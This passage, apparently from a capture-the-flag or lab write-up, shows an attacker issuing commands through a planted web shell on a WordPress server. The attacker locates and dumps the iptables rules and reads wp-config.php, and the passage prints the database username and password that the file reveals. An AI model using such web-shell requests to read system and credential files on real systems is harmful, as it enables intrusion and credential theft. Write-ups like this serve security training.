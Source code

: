 Unfortunately it does not establish a connection, which is probably because of a firewall that is in the way.
By searching the file system, the **iptables rules** are found:
```
GET /shell.php?hidden=find+/etc+|+grep+iptable
```
```
/etc/iptables
/etc/iptables/rules.v6
/etc/iptables/rules.v4
```

Getting contents of _iptables/rules.v4_:
```
GET /shell.php?hidden=cat+/etc/iptables/rules.v4
```
```
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT DROP [0:0]
-A INPUT -p icmp -j ACCEPT
-A INPUT -p udp -m udp --sport 53 -m u32 --u32 "0x1e=0x81000000:0x81ffffff" -j ACCEPT
-A INPUT -p tcp -m tcp --dport 20 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 21 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 25 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 43 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 53 -j ACCEPT
-A INPUT -p udp -m udp --dport 53 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A INPUT -j REJECT --reject-with icmp-port-unreachable

-A OUTPUT -p icmp -j ACCEPT
-A OUTPUT -p udp -m udp --dport 53 -m u32 --u32 "0x1e=0x1000000:0x1ffffff" -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 20 -j ACCEPT
-A OUTPUT -o lo -j ACCEPT
-A OUTPUT -p tcp -m state --state ESTABLISHED -j ACCEPT
-A OUTPUT -p udp -m state --state ESTABLISHED -j ACCEPT
-A OUTPUT -j REJECT --reject-with icmp-port-unreachable
```

It drops every packet on input and output in the beginning of the rules.

Enumerating the web directory and search for potential passwords:
```
GET shell.php?hidden=cat+/home/ib01c03/www/wp-config.php
```
```
/** MySQL database username */
define('DB_USER', 'ib01c03');

/** MySQL database password */
define('DB_PASSWORD', 'Thi$sh1tIsN0tGut');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```
